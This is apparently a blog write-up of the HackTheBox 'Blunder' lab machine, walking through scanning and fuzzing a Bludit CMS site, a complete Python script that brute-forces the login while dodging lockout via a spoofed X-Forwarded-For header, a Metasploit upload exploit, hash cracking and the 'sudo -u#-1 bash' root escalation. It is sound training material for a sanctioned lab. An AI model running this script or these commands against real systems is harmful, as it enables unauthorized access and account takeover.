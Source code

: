 ```yaml
---
title: Blunder Writeup - HackTheBox
author: Sujit Suryawanshi
date: 2020-04-22 14:10:00 +0800
categories: [Writeup, HackTheBox]
tags: [hackthebox, htb, blunder]
---
```


<h2 data-toc-skip>Writeup of Blunder Machine (HackTheBox)</h2>


![Desktop View]({{ "/assets/img/blunder-main.png" | relative_url }})

Blunder machine released on 30 May 2020 on HackTheBox platform and created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858).
It's nice machine which hosted CMS named Bludit. So let's move forward and p4wn this awesome box.

---

<h3 data-toc-skip>Starting with Nmap</h3>

#### sudo nmap -sV -sC -T4 -p- 10.10.10.191

![Desktop View]({{ "/assets/img/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -p- for All Ports and -T4 for Timing. As you can see there are two ports open that is port 21 and 80. Port 21 was ftp but closed and port 80 has hosted webserver which has Apache httpd 2.4.41 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.



After opening the the website in browser we found that it was using Bludit CMS.

![Desktop View]({{ "/assets/img/blunder-cms.png" | relative_url }})

Continuing to enumeration we started fuzzing the web directory using ffuf tool.


![Desktop View]({{ "/assets/img/blunder-ffuf.png" | relative_url }})

After doing some web fuzzing, We found admin panel of Bludit CMS hosted on url <http://10.10.10.191/admin/>

![Desktop View]({{ "/assets/img/blunder-cms-admin.png" | relative_url }})

As we don't know the username and password of this admin panel, We continued fuzzing on website using ffuf and some common extensions like php, txt etc.

![Desktop View]({{ "/assets/img/blunder-ffuf-1.png" | relative_url }})

After some fuzzing we got one todo.txt file hosted on webserver which has one note "Inform fergus that the new blog needs images - PENDING"

So here we got the one of the user's username that is "fergus"

We found the user but we don't know the password so, For password we used one tool called "CeWl".

So basically what this tool does, It generates wordlist from any url/webpage.
In our case, We used this tool on webpase and generated wordlist.

cewl http://10.10.10.191/

![Desktop View]({{ "/assets/img/blunder-cewl.png" | relative_url }})

Nice, CeWl generated more than 300 passwords.
Now we have username and wordlist of passwords, Let's move forward.

After doing some google about Bludit CMS, We found that Bludit CMS was vulnerable for password bruteforce attack.

Checking one [issue](https://github.com/bludit/bludit/pull/1090) on Github about Bludit, We got one python script to bruteforce the password.

To bruteforce the password We needed to modify the script.

```python
#!/usr/bin/env python3
import re
import requests
#from future import print_function

def open_ressources(file_path):
    return [item.replace("\n", "") for item in open(file_path).readlines()]

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open_ressources('/home/sujit/Desktop/HTB/Blunder/pass.txt')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

In above code, I used pass.txt file as wordlist and username as "fergus"

![Desktop View]({{ "/assets/img/blunder-bruteforce-1.png" | relative_url }})

After bruteforce, We got the password of user "fergus" as "RolandDeschain"

![Desktop View]({{ "/assets/img/blunder-bruteforce-2.png" | relative_url }})

Now we have both username and password.
Let's login with username as “fergus” and password as  “RolandDeschain”

![Desktop View]({{ "/assets/img/blunder-bludit-login.png" | relative_url }})

We successfully logged in into Bludit CMS.
After some Google, I found that there is file upload vulnerability available for Bludit CMS and also there is metasploit module available for the same.

Name of the Metasploit module : linux/http/bludit_upload_images_exec

Lets fire up metasploit and use the above exploit.

We need to set some required data (option) for this exploit.

![Desktop View]({{ "/assets/img/blunder-metasploit.png" | relative_url }})

Here I set BLUIDITPASS, BLUIDITUSER, RHOSTS, LHOST options respectively to exploit the vulnerability.

After setting up options I ran exploit command to run the exploit and voila!!!, We got initial shell..

![Desktop View]({{ "/assets/img/blunder-metasploit-1.png" | relative_url }})

Now let's start enumeration to get user.

While doing enumeration, I checked some documentation of Bludit CMS in which I found that the CMS had database folder.

![Desktop View]({{ "/assets/img/blunder-cms-structure.png" | relative_url }})

In this database folder I got one PHP file named users.php which contains password hash of another user “hugo”

![Desktop View]({{ "/assets/img/blunder-password-hash.png" | relative_url }})

After using online password cracker, I got "Password120" as password for user “hugo”

![Desktop View]({{ "/assets/img/blunder-password-hash-1.png" | relative_url }})

After login using above password I was able to get user successfully.

![Desktop View]({{ "/assets/img/blunder-user.png" | relative_url }})

Here we got user.txt.
Now it's time for Privilage Escalation.

I ran sudo -l to list out what is allowed to run as sudo without password

![Desktop View]({{ "/assets/img/blunder-privesc.png" | relative_url }})

Here the user was allowed to run /bin/bash without password.

I used sudo -u#-1 bash command to get into root.

The above command will trigger -1 user which is not there so we will get a root shell directly.

You'll get more information about this PrivEsc vulnerability [here](https://www.sudo.ws/alerts/minus_1_uid.html).

![Desktop View]({{ "/assets/img/blunder-root.png" | relative_url }})

And here we rooted Blunder successfully.

Thanks for reading this writeup and all suggestions are welcome.
